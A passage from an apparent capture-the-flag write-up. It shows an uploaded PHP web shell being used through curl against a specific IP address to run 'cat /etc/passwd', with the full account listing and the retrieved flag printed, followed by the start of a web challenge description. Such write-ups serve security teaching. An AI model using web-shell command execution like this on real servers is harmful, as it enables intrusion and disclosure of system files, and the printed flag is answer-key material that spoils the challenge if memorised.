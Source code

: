 Send it to the server and visit the `/uploads` to find out the upload we sent. After that just play around until flag hits.

![14](./14.png)

```php
└─$ curl http://35.208.110.64/uploads/1001/cmd.php?cmd=cat%20/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
<>
vc24ky07:x:1001:1002::/home/vc24ky07:/bin/bash
ssslu:x:1002:1003::/home/ssslu:/bin/bash
choudhary:x:1003:1004::/home/choudhary:/bin/bash
sv24ky07:x:1004:1005::/home/sv24ky07:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mr:x:1005:1006::/home/mr:/bin/bash
gc:x:1006:1007::/home/gc:/bin/bash
rc24cs01:x:1007:1008::/home/rc24cs01:/bin/bash
mysql:x:114:122:MySQL Server,,,:/nonexistent:/bin/false
└─$ curl http://35.208.110.64/uploads/1001/cmd.php?cmd=cat%20.hidden_flag
CTF{3sc4l4t3d_t0_r00t}
```

Flag: `CTF{3sc4l4t3d_t0_r00t}`

## Web

### **Hashing Numbers**

**Description**: To access its secrets, you must first prove your worth by calculating a mathematical expression, a test of both intellect and skill. Will you rise to the challenge and secure the sensitive information, or will the secrets remain forever locked away? The choice is yours.

Flag structure: `CM{XXX-###_##}`
